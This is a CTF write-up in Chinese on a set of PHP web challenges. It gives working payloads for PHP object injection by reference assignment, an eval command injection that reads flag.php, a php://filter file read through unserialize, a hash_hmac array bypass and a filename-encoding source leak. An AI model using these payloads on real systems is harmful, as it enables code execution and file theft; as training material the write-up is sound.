



# do_u_know_HTTP



HDCTF{U_must_konw_all_kinds_of_network_protocols_such_as_HTTP}

# dudaima_1

引用赋值绕过恒等

```php
<?php
class Just4Fun {
	public $enter;
	public $secret;
}
$o = new Just4Fun();
$o->enter = &$o->secret;

echo serialize($o);
```

payload : 

```
?pass=O:8:"Just4Fun":2:{s:5:"enter";N;s:6:"secret";R:2;}
```

HDCTF{72595ef46cff90ccb8dd99a177721bc5}

# erciyuan

响应头存在提示



给出了加密方式 bin2hex(base64_encode(gzdeflate($file)))

```php
<?php
echo bin2hex(base64_encode(gzdeflate('index.php')));
```

得到 7938784c536133514b38676f4141413d，访问 ?img=7938784c536133514b38676f4141413d 可以得到源码



解码之后为

```php
<?php
error_reporting(0);
if (!function_exists('hex2bin')) {
    function hex2bin($hexdata){
      $bindata = '';
      for ($i=0; $i<strlen($hexdata); $i+=2){
          $bindata .= chr(hexdec(substr($hexdata,$i,2)));
      }
      return $bindata;
    }
}

if(!function_exists('bin2hex')) { 
    function bin2hex($str) { 
        $strl = strlen($str); 
        $fin = ''; 
        for($i =0; $i < $strl; $i++) { 
            $fin .= dechex(ord($str[$i])); 
        } 
        return $fin; 
    }
} 


@header('Hint: !HDCTF!.php && bin2hex(base64_encode(gzdeflate($file)))');
if(!isset($_GET['img']))
    header('Refresh:0;url=./index.php?img=53307a4a7a637a544b38684c4277413d');
$file = gzinflate(base64_decode(hex2bin($_GET['img'])));
echo '<title>HDCTF2nd</title>';
echo '<center><h3>'.$_GET['img'].'</h3>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
$file = str_replace("HnuSec","!", $file);
$txt = base64_encode(file_get_contents($file));
echo "</img></center>";

?>
```

可以看到，文件名加密对应的解密方式为 gzinflate(base64_decode(hex2bin($file)))

根据提示要获取 !HDCTF!.php，结合源码文件名只能是数字+字母，且把 HnuSec 替换为 !

得到 payload 

```php
<?php
echo bin2hex(base64_encode(gzdeflate('HnuSecHDCTFHnuSec.php')));
```

结果为 383867724455354e396e4278446e487a41445031436a494b41413d3d

访问

```
?img=383867724455354e396e4278446e487a41445031436a494b41413d3d
```

得到源码

```php
<?php DEFINE('FLAG','HDCTF{8eb106829505b59a67f3fe5557e777f4}');
```

# getshell

命令执行拼接

源码

```php
<?php
$str = $_POST['str'];

if(isset($str)){
    $sp = ",";
    $kv = "=";

    $arr = str_replace(array($kv,$sp),array('"=>"','","'),'array("'.$str.'")');
    
    eval("\$arr"." = $arr;");

}else{
    show_source(__FILE__);
}
```

将 POST 的 str 转化为数组。将 `=` 替换为 `"=>"`，将 , 替换为 `","`

POST str=1,2,3 在 eval 执行前，$arr 为 array("1","2","3")

在 3 处进行拼接与闭合，使用 `");echo 1;//` 得到结果 `array("1","2","");echo 1;//")` 成功注入 `echo 1`

最终 payload

```
str=1,2,3");readfile('flag.php');//
```

HDCTF{17aa1305bbdedaf12d4a1be87cc66d2f}

# hash_hmac

hash_hmac 遇到数组返回空，本题与数组绕过 md5 同理

payload

```
x[]=1&y[]=2
```

得到 flag 地址 fllllllllllllag.php

HDCTF{9416f5bfeb51f5e788f30840a6b1d601}

# simple_trick

给出了源码

```php
<?php 
highlight_file(__FILE__); 
include('flag.php'); 
$a = $_GET['a']; 
$b = unserialize ($a); 
$b->c = $flag; 
foreach($b as $key => $value) 
{ 
        if($key==='c') 
        { 
                continue; 
        } 
        echo $value; 
} 
?> 
```

使用引用赋值（浅拷贝）绕过恒等，让实例化对象的其他属性也指向 c 的位置，即可输出 flag

payload

```php
<?php
$x = new stdClass();
$x->c = 'x';
$x->hit = &$x->c;
echo urlencode(serialize($x));
```

结果：`O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A1%3A%22c%22%3Bs%3A1%3A%22x%22%3Bs%3A3%3A%22hit%22%3BR%3A2%3B%7D`

HDCTF{090bdba467fe4f4f6bd720b50602eca1}

# warmup

首先登陆页面，随便输内容，提示

```
hex(base64(password)) is : 64325673593239745a5639306231394952454e55526a4a755a413d3d
```

解码之后

```
welcome_to_HDCTF2nd
```

password 输入该值即可

HDCTF{d356c6ba4c6eae7cc5389b8695730ecc}

# welcome

首先登陆页面，随便输内容，提示

```
NO!Your password is welcome_to_HnuSec
```

password 输入该值即可

HDCTF{55e4abd8f9ec513aef650ea2e79dbc96}

# welcome_to_the_new

给出了源码

```php
 <?php
show_source(__FILE__);
error_reporting(0);

Class Stu{
    private $name;
    private $age;
    private $sex;
    public $info = 'info.php';
    
    protected function setName($name){
        $this->name = $name;
    }
    
    protected function setAge($age){
        if(($age>16)&&($age<25)){
            $this->age = $age;
        }else{
            return False;
        }
    }
    
    protected function setSex($sex){
        if(($sex==='Man') || ($sex==='Woman')){
            $this->sex = $sex;
        }else{
            return False;
        }
        
    }
    
    protected function getName(){
        return $this->name;
    }
    
    public function __construct($name, $age, $sex){
        $this->setName($name);
        $this->setAge($age);
        $this->setSex($sex);
    }
    
    public function __destruct(){
        include($this->info);
        Greet($this->getName());
    }
}

$someone = new Stu('M&G', 20, 'Man');

$s = $_GET['Hainan_University'];

if(isset($s)){
    unserialize($s);
} 
```

Stu 类的 __destruct() 进行了文件包含，可以在这里用伪协议

payload

```php
<?php
Class Stu{ 
	public $info = 'php://filter/read=convert.base64-encode/resource=flag.php'; 
}
$o = new Stu();
echo serialize($o);
```

结果为 `O:3:"Stu":1:{s:4:"info";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`

输入解码即可

HDCTF{c1dfbac550a539bb210bc477b8a8da83}

# welcome_to_the_new2

首先给了源码

```php
 <?php
show_source(__FILE__);
error_reporting(0);

Class Stu{
    private $name;
    private $age;
    private $sex;
    public $info = 'info.php';
    
    protected function setName($name){
        $this->name = $name;
    }
    
    protected function setAge($age){
        if(($age>16)&&($age<25)){
            $this->age = $age;
        }else{
            return False;
        }
    }
    
    protected function setSex($sex){
        if(($sex==='Man') || ($sex==='Woman')){
            $this->sex = $sex;
        }else{
            return False;
        }
        
    }
    
    protected function getName(){
        return $this->name;
    }
    
    public function __construct($name, $age, $sex){
        $this->setName($name);
        $this->setAge($age);
        $this->setSex($sex);
    }
    
    public function __destruct(){
        include($this->info);
        Greet($this->getName());
    }
}

$someone = new Stu('M&G', 20, 'Man');

$s = $_GET['Hai_nan.University'];

if(isset($s)){
    unserialize($s);
} 
```

在 GET 参数时要获取 `Hai_nan.University`，直接 GET 请求传参传 `.` 时会被转化为 `_`

这里传递参数的方式为 `Hai[nan.University` 

payload 同上

```
?Hai[nan.University=O:3:"Stu":1:{s:4:"info";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}
```

HDCTF{9e4e4b277a98bf788b1a1417cc287489}

# signin

F12 看到注释的 base64 解码即为 flag

# nospace

```
import requests
r = requests.get('http://localhost:20011/index.php')
s = r.text

a = s.replace('&#8203;','\u200b')
b = a.replace('&zwnj;','\u200c')
c = b.replace('&zwj;','\u200d')
d = c.replace('&lrm;','\u200e')
e = d.replace('&rlm;','\u200f')


import zwsp_steg
zwsp_steg.decode(e)
# YlJ0TG1NR3c2SzE1UWo0bw==
# bRtLmMGw6K15Qj4o
```

HDCTF{f41999c641a6676ca779698f2e414d45}

# ACTF

https://github.com/CSUAuroraLab/ACTF_Junior_2020